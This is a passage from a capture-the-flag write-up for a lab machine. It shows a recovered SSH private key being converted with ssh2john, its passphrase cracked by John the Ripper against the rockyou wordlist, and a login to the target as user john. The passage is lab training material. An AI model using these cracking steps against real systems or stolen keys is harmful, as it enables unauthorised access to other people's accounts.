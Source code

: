 ## 2. Foothold
Logging in, we get the following.
- the web flag
- RSA private key

Download the rsa key, save it. Change the permissions to `600`, as `chmod 600 id_rsa`.

Trying to login gives us:
```
┌──(kali㉿kali)-[/tmp]
└─$ ssh -i id_rsa john@10.10.98.224
Enter passphrase for key 'id_rsa':
```

We need a passphrase. For that, we use `ssh2john`.

```
┌──(kali㉿kali)-[/tmp]
└─$ locate ssh2john
/usr/share/john/ssh2john.py
                                                                                                                                 
┌──(kali㉿kali)-[/tmp]
└─$ /usr/share/john/ssh2john.py id_rsa > hash
                                                                                                                                 
┌──(kali㉿kali)-[/tmp]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
{hidden}       (id_rsa)
1g 0:00:00:05 DONE (2021-06-09 02:16) 0.1876g/s 2690Kp/s 2690Kc/s 2690KC/s     1990..*7¡Vamos!
Session completed
```

#### What is John's RSA Private Key passphrase?
Run JtR to bruteforce id_rsa's passphrase

```
┌──(kali㉿kali)-[/tmp]
└─$ ssh -i id_rsa john@10.10.98.224
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ 
```
